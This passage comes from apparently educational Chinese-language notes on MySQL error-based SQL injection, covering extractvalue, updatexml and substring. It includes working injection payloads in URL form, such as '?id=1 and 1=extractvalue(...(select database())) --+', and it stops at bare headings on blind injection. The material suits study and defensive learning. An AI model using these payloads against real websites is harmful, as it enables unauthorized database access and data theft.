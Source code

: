 ##### extracvalue函数

`extracvalue(name(列名)(不重要),path(路径))` `like extravalue(doc,'/book/title')` 

默认返回32字符

##### 如何执行报错

`extracvalue(name,~path)` 会将path中的内容执行并显示报错

`like extravalue(doc,'~book/title')` 

`or extravalue(1,concat(0x7e,(select database())))  `

`//0x7e为~的ASCLL码，concat(1,2)将1,2连接,(select ...)()括号中的内容先执行`

##### 使用方法

1. `?id=1 union 1,2,extractvalue(name,~path) --+`  `like ?id=1 union 1,2,extractvalue(1,concat(0x7e,(select database()))) --+ `

2. `?id=1 and 1= extractvalue(name,~path)` `like ?id=1 and 1=extractvalue(1,concat(0x7e,(select database()))) --+ `



##### substring函数

由于extractvalue函数默认返回32字符，因此如果需要查看之后的内容要用到substring函数

`substring(内容,number A,number B) 从A字符开始显示个字符`  

`like  extravalue(1,concat(0x7e,(select substring(database(),1,30)))) 从第一个字符开始显示30个字符`



#### updatexml报错注入

##### updatexml函数

`updatexml(doc,path,new_value)` `like updatexml(doc,'/book/author','1')`

默认返回32字符

##### 如何执行报错

同上extractvalue(),依旧是在path中执行报错

`like ?id=1 and 1=updatexml(1,concat(0x7e,(select database())),3) --+ 

#### floor报错注入

### 盲注

#### 什么是盲注

页面没有报错回显，不知道数据库具体返回值的情况下，对数据库中的内容进行猜解，实行SQL注入。

#### 盲注分类

1. 布尔盲注
2. 时间盲注
3. 报错盲注
